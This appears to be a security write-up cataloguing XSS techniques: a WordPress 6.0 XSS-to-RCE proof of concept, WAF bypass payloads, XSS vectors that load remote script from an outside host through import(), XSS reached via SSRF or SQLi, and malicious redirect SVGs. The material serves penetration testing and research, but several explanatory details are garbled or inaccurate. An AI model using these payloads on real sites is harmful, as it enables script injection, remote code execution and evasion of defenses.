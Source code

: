 <h1>Brute Logic Tricks: Advanced Techniques in Web Security Exploitation</h1><br />
The following write-up highlights advanced web exploitation techniques focusing on XSS (Cross-Site Scripting) vulnerabilities, WAF (Web Application Firewall) bypasses, and SSRF (Server-Side Request Forgery) scenarios. These methods are tailored for skilled penetration testers and security researchers, offering a deeper understanding of how to trick filters and evade detection in web applications.
<br />
<h3>1. Escaping Filters Using Byte Bundles</h3>
<b>Concept:</b> To bypass filters that escape specific characters such as single quotes (') when performing web attacks, particularly XSS, one can leverage bytes in the range of %A1 to %FE. These byte ranges can be combined with a single quote to outsmart the filter mechanism.
<br />
<b>Explanation:</b> In web security, many systems sanitize or escape certain characters like %27 (which is the ASCII encoding for ') to prevent malicious injections. However, some filtering mechanisms do not account for all possible byte combinations. By using a byte from %A1 to %FE, you can evade certain character escape sequences and trick the filter into allowing the injection. This is particularly useful when performing brute-force logic attacks or exploring other injection techniques.
<br />
<h3>2. WP 6.0 XSS to RCE Proof of Concept (PoC)</h3>
<b>Concept:</b> In WordPress 6.0, a known exploit allows a user to escalate an XSS (Cross-Site Scripting) vulnerability to RCE (Remote Code Execution). The method involves creating a file (brute.txt) in the /wp-content/plugins folder.

Example:

import('//X55.is/wp')
Requirements:

An admin user must be logged in with default write permissions.
The "Hello Dolly" plugin needs to be activated (or left deactivated as it's a default plugin in WordPress).
Explanation: XSS is a client-side code injection attack, but in this case, it can escalate into a server-side RCE if the admin user is logged in. The trick lies in leveraging the default permissions in WordPress installations to inject a malicious file. This kind of exploitation showcases the danger of poorly protected administrative interfaces in web applications.

3. Breaking Out of String Values with Quotes
Concept: To escape from any string value where user input is embedded, an injection of single or double quotes is essential unless there are two injection points.

Example:
XSS: /alert(1)//\
Explanation: When user inputs are inserted into strings without proper sanitization, attackers can use single or double quotes to close the string and execute arbitrary code. However, if you have two injection points (such as opening and closing quotes around your payload), breaking out of a single point might not be necessary. The goal here is to manipulate the syntax of the code by closing strings prematurely, enabling the injection of additional malicious code.

4. Anchors as XSS Vectors
Concept: HTML <a> tags (anchors) are powerful XSS vectors. By exploiting their attributes, one can trigger XSS payloads automatically.

Example 1:
<a href=//X55.is autofocus onfocus=import(href)>
Explanation: Here, the combination of the autofocus and onfocus attributes is used to trigger the import() function when the link is clicked or the element receives focus. This is an advanced method for exploiting XSS, taking advantage of HTML5 attributes. The anchor tag makes it especially dangerous since it is a common element on web pages and can be used to load external scripts without the need for parentheses.

5. Misplacing Payloads and the ">" Symbol
Concept: If a payload and the ">" symbol are misplaced in HTML code, moving elements out of their usual place can still allow the execution of malicious code.

Example:
<Img Src="//X55.is/> "OnError=import(src)//
Explanation: In this example, the payload bypasses filters by misplacing the > symbol. This is a clever trick that can allow a malicious script to run even if the filter expects the payload to be in a specific position. The OnError event is used to trigger the payload when the image fails to load, effectively executing the malicious code.

6. Securi WAF Bypass
Concept: Securi WAF (Web Application Firewall) can be bypassed using a crafted HTML form, as shown below.

Example:

data:text/html,<form action=https://brutelogic.com.br/xss-waf.php method=post><input type=hidden name=a value="<K Contenteditable Autofocus OnFocusIn= [1].map(alert)>"><input type=submit value=XSS></form>
Explanation: This example uses a hidden input field with a crafted payload to bypass the Securi WAF. The Contenteditable attribute allows for user interaction, while Autofocus and OnFocusIn trigger the attack when the form is submitted. Web Application Firewalls typically inspect requests for known patterns, but this creative form submission method can evade such detection mechanisms.

7. Impera WAF Bypass
Concept: By crafting a vector inside an SVG tag, it’s possible to bypass the Impera WAF.

Example:

<svg><set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b>
Explanation: Here, the vector uses an SVG element with a set attribute that starts executing JavaScript code when the SVG is rendered. The code concatenates parts of the location object and JavaScript's alert() function to trigger an alert. This bypasses the Impera WAF, which likely doesn’t properly inspect or decode these complex constructs inside SVG files.

8. XSS Vulnerability from SSRF or SQLi Scenarios
Concept: Cross-Site Scripting (XSS) can emerge from SSRF (Server-Side Request Forgery) or SQL injection scenarios if improperly handled.

SSRF (curl-based) Example:

?url=https://blablablabla-site.com/poc.svg
SSRF (PHP file_get_contents) Example:

plaintext
Copy code
?url=data:,<svg/onload=alert(1)>
SQLi (error-based) Example:

?id='<svg/onload=alert(1)>
Explanation: In these cases, XSS occurs because input parameters are not sanitized, allowing attackers to inject malicious scripts into server responses. SSRF exploits can be leveraged by providing URLs that return SVG files containing scripts, while SQLi can inject scripts directly into database queries, resulting in the execution of malicious code when the error message or query result is rendered.

9. Brute SVG Collection
Brute Logic offers a collection of SVG files, each serving different purposes in exploiting web vulnerabilities.

XSS (no image)

URL: https://brutelogic.com.br/poc.svg
XSS (valid image)

URL: https://brutelogic.com.br/brute.svg
Redirect (default)

URL: https://brutelogic.com.br/redir.svg
Redirect (custom)

URL: https://brutelogic.com.br/redir.svg?url=//X55.is
Redirect (custom + warning)

URL: https://brutelogic.com.br/redir.svg?url=//X55.is&w=1
Explanation: This collection provides pre-built SVG files that trigger XSS or redirect behavior when accessed. The SVG format is commonly used for image rendering, but attackers can insert scripts into these files, making them a vector for XSS attacks. The redirect files can be customized to send users to any malicious site, with optional warning messages to obscure the true intent of the redirect.

Conclusion
The above techniques represent advanced strategies used by security researchers to test, bypass, and exploit web vulnerabilities. These methods emphasize the need for rigorous input validation, secure configuration, and proper use of web application firewalls to protect against common attack vectors like XSS, SSRF, and SQLi. As web security continues to evolve, so do the methods used by attackers, making it crucial to stay informed about these cutting-edge techniques.

